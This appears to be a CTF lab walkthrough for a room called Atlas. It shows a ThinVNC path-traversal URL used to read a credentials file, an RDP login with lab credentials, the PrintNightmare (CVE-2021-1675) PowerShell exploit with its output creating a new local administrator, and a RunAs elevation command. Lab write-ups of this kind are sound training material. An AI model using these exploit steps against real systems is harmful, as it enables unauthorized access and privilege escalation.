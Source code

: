 ok this room is hand-holding but I appreciate it

simply put this script does a path traversal on host/port to read the `thinvnc.ini` file (by default)

something more like `http://host:port/abc/../../ThinVNC.ini`

then reads it and search for Credentials...

`xfreerdp /v:10.10.246.176 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp`

The last part of this command share a folder of target with or own /tmp folder

Thats pretty cool huh?

## privilege escalation

### printnightmare (or cve-2021-1675)

when you have access to powershell and spool service (printer) is running

think of printnightmare

we clone a powershell implementation of that and copy in our /tmp folder

From atlas machine we open powershell then import the script

`. \\tsclient\share\CVE-2021-1675-main\CVE-2021-1675.ps1`

sometimes you need to download it in powershell via `IEX` command to bypass security policy but tis time we imported it right

Then we start stuff

`Invoke-Nightmare`

which creates a new admin user for us

```bash
PS C:\Users\Atlas> . \\tsclient\share\CVE-2021-1675-main\CVE-2021-1675.ps1

PS C:\Users\Atlas> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```

We could take the simple option of right-clicking on PowerShell or cmd.exe and choosing to "Run as Administrator", but that's no fun. Instead, let's use a hacky little PowerShell command to start a new high-integrity command prompt running as our new administrator.

The command is as follows:
`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`
